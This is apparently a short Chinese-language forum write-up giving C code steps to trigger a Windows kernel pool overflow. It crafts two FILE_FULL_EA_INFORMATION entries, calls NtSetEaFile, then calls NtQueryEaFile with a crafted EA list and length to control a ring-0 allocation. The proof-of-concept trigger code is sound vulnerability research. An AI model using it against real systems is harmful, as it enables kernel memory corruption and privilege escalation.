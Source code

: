 ### 触发步骤

创建含有两个 FILE_FULL_EA_INFORMATION 结构的数组。  
构造第一个 FILE_FULL_EA_INFORMATION 结构如下

```
curEa->Flags = 0;
// EaNameLength + EaValueLength +9 等于当前结构的总大小， 这里构造为18，使padding=2.
curEa->EaNameLength = 3;
curEa->EaValueLength = 6;
//NextEntryOffset指向下一个EA信息，必须4字节对齐。
curEa->NextEntryOffset = (curEa->EaNameLength + curEa->EaValueLength + 3 + 9) & (~3);
memcpy(curEa->EaName, ".PA", 3);
RtlFillMemory(curEa->EaName + curEa->EaNameLength + 1 , 6 , 0);

```

构造第二个 FILE_FULL_EA_INFORMATION 结构如下

```
curEa = (PFILE_FULL_EA_INFORMATION)((PUCHAR)curEa + curEa->NextEntryOffset) ;
curEa->NextEntryOffset = 0;
curEa->Flags = 0;
// 第二个结构总大小为104
curEa->EaNameLength = 4;
curEa->EaValueLength =100;
memcpy(curEa->EaName, ".PBB", 4);
RtlFillMemory(curEa->EaName + curEa->EaNameLength + 1 , 100 , 0);

```

调用 NtSetEaFile 函数来设置文件的 Ea 属性。  
构造 NtQueryEaFile 函数的 Ealist 参数如下:

```
memcpy(EaList->EaName, ".PA", strlen(".PA"));
EaList->EaNameLength = (UCHAR)strlen(".PA");
EaList->NextEntryOffset = 12; //必须4字节对齐
 
 
EaList = (PFILE_GET_EA_INFORMATION)((PUCHAR)EaList + 12);
memcpy(EaList->EaName, ".PBB", strlen(".PBB"));
EaList->EaNameLength = (UCHAR)strlen(".PBB");
EaList->NextEntryOffset = 0;

```

调用 NtQueryEaFile 函数来触发漏洞，构造该函数的 length 参数为 19，该参数可用来控制 0 环申请内存时的大小。

### 调试

内核池分配  
![](https://bbs.pediy.com/upload/attach/202201/848410_VGTWNB3QBRPHC2U.png)

 